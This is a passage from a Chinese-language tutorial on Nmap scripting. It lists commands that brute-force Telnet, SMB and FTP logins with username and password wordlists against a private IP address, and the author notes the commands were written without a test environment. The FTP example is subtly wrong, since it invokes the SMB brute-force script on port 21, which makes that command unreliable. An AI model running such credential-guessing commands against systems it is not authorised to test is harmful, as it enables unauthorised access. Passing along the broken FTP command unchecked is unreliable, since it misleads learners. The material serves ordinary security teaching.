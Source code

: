 ### 3.3.3.**其它爆破案例**

这里我没有实际的环境，直接写命令吧！

#### 3.3.3.1.**爆破TELNET服务**

```
命令：nmap -p 23 --script=telnet-brute.nse --script-args userdb=user.txt,passdb=passwd.txt 192.168.10.50
```

#### 3.3.3.2.**爆破SMB服务**

```
命令：nmap -p 445 --script=smb-brute.nse --script-args userdb=user.txt,passdb=passwd.txt 192.168.10.50
```

#### 3.3.3.3.**爆破FTP服务**

```
命令：nmap -p 21 -sT --script=smb-brute.nse --script-args userdb=user.txt,passdb=passwd.txt 192.168.10.50
```

# 4.**总结**

在Nmap中还有很多有趣的脚本，并且也支持自定义脚本，所以有未总结到位的，可以自行百度搜索。 